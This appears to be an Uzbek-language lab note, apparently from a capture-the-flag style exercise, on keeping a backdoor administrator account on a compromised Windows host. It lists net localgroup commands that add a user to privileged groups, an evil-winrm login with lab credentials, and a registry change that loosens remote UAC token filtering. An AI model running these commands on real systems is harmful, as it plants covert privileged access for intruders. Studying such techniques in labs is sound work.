 # Bo'rimiz, gohida qo'yni maskasini ham kiyishimizga to'g'ri keladi)
Bizda Admin huquqi bor backdoor user qoldirishimiz, keyingi ishalrni o'sha userlardan qilishimiz mumkin.

### Userni Guruhlarga qo'shish
Adminlar gruppasiga:
```
net localgroup administrators __username__ /add
```

BackUp gruppasiga:
```
net localgroup "Backup Operators" __username__ /add
```

Remote management group:
```
net localgroup "Remote Management Users" __username__ /add
```

### Userga ulanish:
```
evil-winrm -i 10.10.187.100 -u thmuser1 -p Password321
```
Agar o'rnatilmagan bo'lsa, Arch uchun buyruq:
```
sudo pacman -S evil-winrm
```

Agar biz **evil-winrm**dan foydalanmasdan GUI tarzda ulanishni istasak muhitni quyidagicha qilishimiz kerak:
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
